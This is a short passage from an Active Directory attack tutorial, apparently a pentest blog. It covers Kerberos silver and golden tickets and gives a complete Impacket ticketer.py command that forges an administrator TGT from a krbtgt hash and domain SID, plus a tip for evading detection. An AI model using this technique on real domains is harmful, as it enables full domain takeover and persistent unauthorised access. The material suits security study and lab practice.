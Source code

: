 ![](/assets/images/active-directory/silver_mimi.png)

Notice that we used nthash on impacket and rc4 on mimikatz, there are other hashes values that we can use besides those ones, and using newer algorithm is less likely to be caught. [Here](https://adsecurity.org/?p=2011) is a more detailed explanation of what we need and what we can do with TGS.

# Golden Ticket

If silver tickets was similar to constrained delegation Golden tickets are similar to unconstrained delegation, just that rather than harvesting TGTs we will forge our own TGTs, to do it we need the hash of krbtgt account and the SID of the domain.

### Impacket

Again we will use ticketer, but we will use the hash of krbtgt instead of the machine one, also we will set the user as administrator so the command is: `ticketer.py -nthash <krbtgt hash> -domain-sid <domain SID> -domain <domain name> administrator`, so on this case I run: `ticketer.py -nthash d6fcce69ae31172e9b8bd49d887d92ab -domain-sid S-1-5-21-4100948528-2762735150-1331983247 -domain KAIBA-CORP.local administrator`, after exporting the ticket to the env variable KRB5CCNAME you'll be able to access any service inside the domain without using a password.

